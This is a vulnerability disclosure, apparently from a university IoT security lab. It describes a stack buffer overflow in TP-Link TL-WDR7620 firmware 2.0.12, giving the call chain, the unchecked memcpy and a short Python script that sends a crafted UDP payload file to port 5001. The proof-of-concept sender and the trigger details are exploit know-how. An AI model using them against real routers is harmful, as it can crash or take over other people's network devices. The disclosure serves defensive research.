







# Overview
Details of the vulnerability found in the tplink router TL-WDR7620.

| Firmware Name  | Firmware Version  | Download Link  |
| -------------- | ----------------- | -------------- |
| TL-WDR7620    |  20190725_2.0.12    | https://service.tp-link.com.cn/detail_download_8635.html   |


# Vulnerability details
## 1. Vulnerability trigger Location
A stack overflow vulnerability exists in the call chain of `devDiscoverHandle` within the firmware. The triggering path is:`devDiscoverHandle → protocol_handler → ms_idle_handler → parse_advertisement_frame → copy_msg_element`.In the `copy_msg_element` function (offset 0x404D323C), `memcpy` is called without proper boundary checks. A specially crafted UDP packet can trigger this vulnerability.



## 2. Vulnerability  Analysis
- During protocol parsing, the program reads a length field fully controlled by the user from the network packet. After `parse_msg_element` locates the corresponding element, this length is passed directly to `copy_msg_element` and ultimately used in:`memcpy(a2, a1 + 4, a3);`
- The destination buffer `v27` has a fixed size (about 229 bytes). Because there is no bounds checking between the user-controlled length and the size of the destination buffer, an attacker can craft a well-formed element with an excessively large length value. This causes `memcpy` to write beyond the stack buffer, overwriting adjacent memory and potentially the return address, leading to a crash or even arbitrary code execution.



# POC
## python script
```python
import socket
from time import sleep

TARGET_IP = "192.168.3.28"
TARGET_PORT = 5001


def send_payload(file_path):
    with open(file_path, "rb") as f:
        data = f.read()

    print(f"[*] Loaded payload: {len(data)} bytes")

    udp = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

    udp.sendto(data, (TARGET_IP, TARGET_PORT))
    udp.close()

    print("[+] Payload sent")


if __name__ == "__main__":
    send_payload("payload.txt")
    sleep(1)
```


# Vulnerability Verification Screenshot
##  wdr7620
- Use `binwalk -Me` to extract the `10400` file from the original firmware (the firmware’s operating system is VxWorks, and this file is the main binary), along with the symbol table file `15CBC1`. Then, we used a self-developed emulation tool specifically designed for VxWorks to start the service and perform validation.




# Discoverer
m202472188@hust.edu.cn HUST IOTS&P lab
